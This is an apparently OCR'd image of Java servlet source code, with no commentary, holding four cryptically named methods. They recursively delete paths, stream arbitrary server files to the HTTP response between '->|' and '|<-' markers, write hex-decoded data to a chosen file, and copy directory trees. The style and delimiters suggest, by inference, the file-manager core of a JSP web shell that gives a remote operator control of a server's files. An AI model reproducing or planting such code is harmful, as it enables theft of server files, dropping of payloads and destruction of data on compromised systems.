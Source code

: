        void EE(String s) throws Exception {  
           File f = new File(s);  
          if (f.isDirectory()) {  
               File x[] = f.listFiles();  
               for (int k = 0; k < x.length; k++) {  
                   if (!x[k].delete()) {  
                      EE(x[k].getPath());  
                   }  
               }  
           }  
          f.delete();  
    }  

      void FF(String s, HttpServletResponse r) throws Exception {  
           int n;  
         byte[] b = new byte[512];  
         r.reset();  
         ServletOutputStream os = r.getOutputStream();  
           BufferedInputStream is = new BufferedInputStream(new FileInputStream(s));  
           os.write(("->" + "|").getBytes(), 0, 3);  
          while ((n = is.read(b, 0, 512)) != -1) {  
               os.write(b, 0, n);  
         }  
       os.write(("|" + "<-").getBytes(), 0, 3);  
           os.close();  
         is.close();  
      }  

      void GG(String s, String d) throws Exception {  
         String h = "0123456789ABCDEF";  
          File f = new File(s);  
          f.createNewFile();  
         FileOutputStream os = new FileOutputStream(f);  
          for (int i = 0; i < d.length(); i += 2) {  
            os.write((h.indexOf(d.charAt(i)) << 4 | h.indexOf(d.charAt(i + 1))));  
         }  
        os.close();  
      }  

      void HH(String s, String d) throws Exception {  
          File sf = new File(s), df = new File(d);  
           if (sf.isDirectory()) {  
              if (!df.exists()) {  
                  df.mkdir();  
             }  
               File z[] = sf.listFiles();  
              for (int j = 0; j < z.length; j++) {  
                  HH(s + "/" + z[j].getName(), d + "/" + z[j].getName());  
             }  
           } else {  
              FileInputStream is = new FileInputStream(sf);  
               FileOutputStream os = new FileOutputStream(df);  
              int n;  
              byte[] b = new byte[512];  
               while ((n = is.read(b, 0, 512)) != -1) {  
                   os.write(b, 0, n);  
             }  
               is.close();  
               os.close();  
           }  
       }  
